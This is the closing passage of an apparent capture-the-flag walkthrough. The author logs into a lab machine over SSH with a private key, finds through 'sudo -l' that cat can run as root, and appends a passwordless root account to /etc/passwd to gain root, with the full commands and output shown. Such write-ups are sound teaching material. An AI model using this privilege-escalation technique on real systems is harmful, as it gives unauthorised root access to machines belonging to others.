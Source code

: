      

  
I copied it over and set the right permissions:  
  

    
    
    root@kali:~/Desktop# chmod 600 key  
    root@kali:~/Desktop# ssh -i key hbeale@192.168.2.120  
    Linux 2.6.27.27.  
    hbeale@slax:~$ whoami  
    hbeale  
    

  
Nice. First thing I always try on a low priv is **sudo -l.**  
  

    
    
    root@kali:~/Desktop# ssh -i key hbeale@192.168.2.120  
    Linux 2.6.27.27.  
    hbeale@slax:~$ whoami  
    hbeale  
    hbeale@slax:~$ sudo -l  
    User hbeale may run the following commands on this host:  
        (root) NOEXEC: /bin/ls, (root) /usr/bin/cat, (root) /usr/bin/more, (root)  
        !/usr/bin/su *root*  
        (root) NOPASSWD: /usr/bin/cat  
    

  
Awesome, we can edit files with cat using the &gt;&gt; operator. Let's add a
root user.  
  

    
    
    hbeale@slax:~$ sudo /usr/bin/cat >> /etc/passwd  
    abatchy::0:0::/root:/bin/bash  
    ^C  
    hbeale@slax:~$ su abatchy  
    root@slax:/home/hbeale# id
    
    
    uid=0(root) gid=0(root) groups=0(root) 

  
Voila, we got root.  
  

#### Note: Not sure if the author did it on purpose to just write some input
to port 10001 and discover it's written to the php file or not, please leave a
comment if you got an answer to that.

####  

#### Abatchy

